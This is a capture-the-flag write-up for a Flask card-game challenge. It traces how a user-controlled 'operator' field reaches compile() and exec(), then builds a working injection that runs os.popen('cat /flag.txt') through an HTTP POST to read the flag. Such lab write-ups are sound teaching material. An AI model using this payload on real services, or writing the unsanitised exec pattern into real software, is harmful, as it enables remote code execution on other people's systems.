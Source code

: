 # Web Evaluation Check

{% file src="../../../.gitbook/assets/web_evaluation_deck.zip" %}
Challenge source code
{% endfile %}

## Application at-a-glance

Application is a card game that allows user to flip 8 cards.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption><p>Default view</p></figcaption></figure>

When HP bar is depleted game is ended.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption><p>End screen</p></figcaption></figure>

## Source Code Review

Most interesting file is `routes.py` as this file store all logic used by application.

{% code lineNumbers="true" %}
```python
from flask import Blueprint, render_template, request
from application.util import response

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def index():
    return render_template('index.html')

@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result) #exec function allows to execute python code
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```
{% endcode %}

First interesting thing is that this application uses `compile` and `exec` function.

Let's analyze the given source code.

{% code lineNumbers="true" %}
```python
    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
```
{% endcode %}

This piece of code parse `POST` request body and get `current_health`, `attack_power` and `operator` parameters.



Next step is checking if all three variables are set, this ensures that all three parameters are passed in request.

{% code lineNumbers="true" %}
```python
if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400
```
{% endcode %}

This part is most interesting because of use `exec` function.

{% code lineNumbers="true" %}
```python
 result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result) #exec function allows to execute python code
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500

```
{% endcode %}

But before `exec` call, user input is directly passed to `compile` function and then to `exec`, `current_health` and `attack_power` are casted to int. `Result` variable is returned to the user in reponse

## Vulnerability

As there is no sanitization of user input there is possible RCE (Remote Code Execution) via `exec` function!

## Testing

As I'm not familliar with `compile()/exec()` function combo I copied relevant part of code to new python script for testing.

{% code lineNumbers="true" %}
```python
current_health = '12'
operator = "+"
attack_power = '100'
result = {}

try:
    code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
    exec(code, result)
    print(result.get('result'))
except:
    print('Something Went Wrong!')

```
{% endcode %}

After executing this script number `112` is printed.

`exec` function is capable of executing python code. User controles all three parameters but only `operator` is passed directly to `compile` rest parameters are converted to `int`

One modyfication for testing script is required, because in this state when something is wrong printing `Something Went Wrong!`

To get full traceback `try/except` block can be removed.

So the first try was to set `operator` variable to something easy like `print(1)` and if everything goes well it should print `1`

{% code lineNumbers="true" %}
```python
current_health = '12'
operator = "print(1)"
attack_power = '100'
result = {}
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
exec(code, result)
print(result.get('result'))
```
{% endcode %}

Unfortunately after executing, script returns `SyntaxError: Invalid Syntax` and result is equal to `result = 12 print(1) 100` so 12 is `current_health` and 100 is `attack_power`&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>First try - invalid syntax</p></figcaption></figure>

Python is capable of running inline code when next instruction are separated with semicolon `;`&#x20;

{% code lineNumbers="true" fullWidth="true" %}
```python
current_health = '12'
operator = ";print(1);"
attack_power = '100'
result = {}
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
exec(code, result)
print(result.get('result'))

```
{% endcode %}

Executing this yeild great success! Script printing additianal `1` in terminal window.

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>RCE!</p></figcaption></figure>

## Exploitation

With proper code execution now we can read the flag.

{% code lineNumbers="true" %}
```http
POST /api/get_health HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:1337/
Content-Type: application/json
Origin: http://127.0.0.1:1337
Content-Length: 114
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{
	"current_health":"43",
	"attack_power":"33",
	"operator":";result = __import__('os').popen('cat /flag.txt').read();"
} 

```
{% endcode %}

After sending this malicious request to application, server returns flag.

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>Flag</p></figcaption></figure>

### Payload explanation

```python
"operator":";result = __import__('os').popen('cat /flag.txt').read();"
```

* semicolons are here for valid python code execution - without `;` signs interpreter throws `invalid syntax` error
* `result =` this overwrites variable that is returned in response to the user
* `__import__` is function called by regular import statement this allows to import modules directly so \
  `__import__('os')` means the same as `import os` but can be done inline and can call functions directly by referencing them as `objects`
* `popen('cat /flag.txt`) this function spawns shell process and executes command `cat /flag.txt`
* `read()` reads output of a process from popen&#x20;

